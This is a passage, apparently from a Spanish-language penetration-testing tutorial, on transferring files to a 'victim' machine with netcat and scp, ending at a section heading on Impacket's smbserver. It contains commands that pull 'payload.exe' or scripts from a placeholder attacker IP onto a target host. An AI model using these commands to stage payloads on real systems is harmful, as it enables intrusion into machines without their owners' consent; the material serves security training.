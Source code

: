 ### 🔌 Parte 2: Transferencia con Netcat (útil cuando no hay wget/curl)

#### ✅ Instalación

Netcat suele venir preinstalado. Si no:

```bash
sudo apt install netcat
```

---

#### 💻 Ejemplo completo

##### 🖥️ Desde el atacante (enviar archivo):

```bash
nc -lvnp 4444 < payload.exe
```

Esto espera una conexión entrante en el puerto 4444 y **envía el archivo**.

##### 🧑‍💻 En la máquina víctima (recibir el archivo):

```bash
nc <IP-del-atacante> 4444 > payload.exe
```

⚠️ Asegúrate de usar `>` en la víctima y `<` en el atacante.

---

### 🔐 Parte 3: Transferencia con SCP (si hay SSH)

#### ✅ Instalación

Ya suele estar instalado. Si no:

```bash
sudo apt install openssh-client
```

#### 💻 Ejemplo

Desde tu máquina:

```bash
scp payload.py usuario@IP-víctima:/tmp/
```

O desde la víctima para traerse archivos:

```bash
scp usuario@IP-atacante:/home/kali/script.sh .
```

---

### 🖥️ Parte 4: SMB con `smbserver.py` (Impacket)
